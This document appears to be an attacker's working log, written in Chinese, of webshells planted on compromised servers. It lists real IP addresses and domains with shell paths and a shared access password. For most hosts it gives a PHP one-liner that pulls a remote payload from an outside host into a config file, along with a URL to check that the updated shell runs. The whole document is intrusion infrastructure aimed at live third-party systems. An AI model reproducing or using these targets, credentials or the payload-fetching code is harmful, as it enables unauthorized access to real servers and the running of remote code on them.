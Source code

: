 http://8.137.153.145/template/template_init.php |mmk123 
代码更新：0608 ✅
http://8.137.153.145/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://8.137.153.145/config/httpd.php?d=up

http://39.105.11.50/template/template_init.php |mmk123 
代码更新：0608 ✅
http://39.105.11.50/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://39.105.11.50/config/httpd.php?d=up

http://luciya.top/template/template_init.php |mmk123 |没有备案 | 106.52.206.209 | 连接不上

http://106.52.206.209/template/template_init.php |mmk123 
代码更新：0608 ✅
http://106.52.206.209/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://106.52.206.209/config/httpd.php?d=up

http://114.55.55.234/template/template_init.php |mmk123 |www.glassflake.cn  没有备案 | Invalid domain 
代码更新：0608 ✅
http://114.55.55.234/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://114.55.55.234/config/httpd.php?d=up

http://120.26.246.137/template_init.php |mmk123
代码更新：0608 ✅
http://120.26.246.137/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://120.26.246.137/config/httpd.php?d=up

http://47.120.70.53/template/template_init.php |mmk123 
代码更新：0608 ✅
http://47.120.70.53/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.120.70.53/config/httpd.php?d=up

http://cfvvv.com/template/dx/images/m1.php |mmk123 |  42.194.134.121  | 连接不上
https://jj.cfvvv.com/template/template_init.php |mmk123 |  42.194.134.121
http://120.27.156.157:8082/template/template_init.php |mmk123 

http://www.xn--wlq673eova83m.cn/core/extend/code/simple.php |mmk123 |  124.222.129.233
代码更新：0608 ✅
http://www.xn--wlq673eova83m.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.xn--wlq673eova83m.cn/config/httpd.php?d=up
